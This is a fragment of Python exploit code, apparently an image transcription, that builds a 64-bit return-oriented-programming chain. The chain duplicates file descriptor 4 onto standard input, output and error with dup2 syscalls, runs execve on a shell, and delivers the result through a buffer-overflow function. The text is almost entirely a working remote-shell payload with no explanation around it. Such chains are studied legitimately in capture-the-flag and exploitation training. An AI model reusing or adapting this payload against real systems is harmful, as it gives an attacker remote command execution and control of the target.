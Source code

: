 ```
# dup2(4, 0)
payload += p64 ( pop_rax )
payload += p64 ( 33 )
payload += p64 ( pop_rdi )
payload += p64 ( 4 )
payload += p64 ( pop_rsi_r15)
payload += p64 ( 0 )
payload += p64 ( 0xdeadbeef1 )
payload += p64 ( syscall )

# dup2(4, 1)
payload += p64 ( pop_rax )
payload += p64 ( 33 )
payload += p64 ( pop_rdi )
payload += p64 ( 4 )
payload += p64 ( pop_rsi_r15)
payload += p64 ( 1 )
payload += p64 ( 0xdeadbeef2 )
payload += p64 ( syscall )


# dup2(4, 2)
payload += p64 ( pop_rax )
payload += p64 ( 33 )
payload += p64 ( pop_rdi )
payload += p64 ( 4 )
payload += p64 ( pop_rsi_r15)
payload += p64 ( 2 )
payload += p64 ( 0xdeadbeef3 )
payload += p64 ( syscall )


# execve
payload += p64 ( pop_rdi )
payload += p64 ( sh_addr )
payload += p64 ( pop_rsi_r15 )
payload += p64 ( 0x6020e0 )
payload += p64 ( 0xdeadbeef4 )
payload += p64 ( pop_rax)
payload += p64 ( 59 )
payload += p64 ( syscall )

# if it crashes here (rip=0x41414141),
# something went wrong. the syscall did not
# execute correctly.
payload += p64 ( 0x41414141 )

doBof(payload)

```
